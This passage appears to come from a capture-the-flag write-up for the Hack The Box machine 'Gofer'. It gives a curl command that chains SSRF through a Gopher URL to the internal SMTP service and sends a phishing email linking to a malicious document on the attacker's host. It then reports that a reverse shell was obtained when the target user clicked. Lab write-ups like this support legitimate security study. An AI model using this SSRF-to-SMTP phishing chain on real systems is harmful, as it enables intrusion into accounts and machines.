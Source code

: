 #### Steps 2 & 3

To execute the payload we can again execute our SSRF > Gopher chain using curl.

```
curl -i -X POST 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM:%3Chacker@site.com%3E%250d%250aRCPT%20TO:%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom:%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo:%20%3Cjhudson@gofer.htb%3E%250d%250aDate:%20Tue,%2015%20Sep%202017%2017:20:26%20-0400%250d%250aSubject:%20AH%20AH%20AH%250d%250a%250d%250ahttp://10.10.14.37/output.odt%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a'
```

![](../../../assets/Gofer-SSRF3.png)

After a while, Jocelyn was kind again and clicked on our malicious link and we received a reverse shell on the target system compromising Jocelyn's account.